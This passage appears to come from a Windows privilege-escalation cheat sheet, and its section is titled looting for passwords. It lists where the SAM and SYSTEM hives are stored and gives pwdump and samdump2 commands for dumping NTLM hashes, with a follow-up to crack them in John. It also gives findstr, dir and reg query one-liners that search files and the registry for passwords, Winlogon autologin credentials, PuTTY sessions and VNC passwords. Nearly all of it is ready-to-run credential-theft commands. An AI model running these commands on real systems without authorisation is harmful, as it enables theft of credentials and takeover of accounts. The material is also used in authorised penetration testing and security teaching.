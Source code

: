     reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
    Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse

#### Looting for passwords
######  SAM and SYSTEM files

######  The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

#### Usually %SYSTEMROOT% = C:\Windows

    %SYSTEMROOT%\repair\SAM
    %SYSTEMROOT%\System32\config\RegBack\SAM
    %SYSTEMROOT%\System32\config\SAM
    %SYSTEMROOT%\repair\system
    %SYSTEMROOT%\System32\config\SYSTEM
    %SYSTEMROOT%\System32\config\RegBack\system

#### Generate a hash file for John using pwdump or samdump2.

    pwdump SYSTEM SAM > /root/sam.txt
    samdump2 SYSTEM SAM -o sam.txt

######  Then crack it with john -format=NT /root/sam.txt.
#### Search for file contents

    cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
    findstr /si password *.xml *.ini *.txt *.config
    findstr /spin "password" *.*

#### Search for a file with a certain filename

    dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
    where /R C:\ user.txt
    where /R C:\ *.ini

#### Search the registry for key names and passwords

    REG QUERY HKLM /F "password" /t REG_SZ /S /K
    REG QUERY HKCU /F "password" /t REG_SZ /S /K

    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
    reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
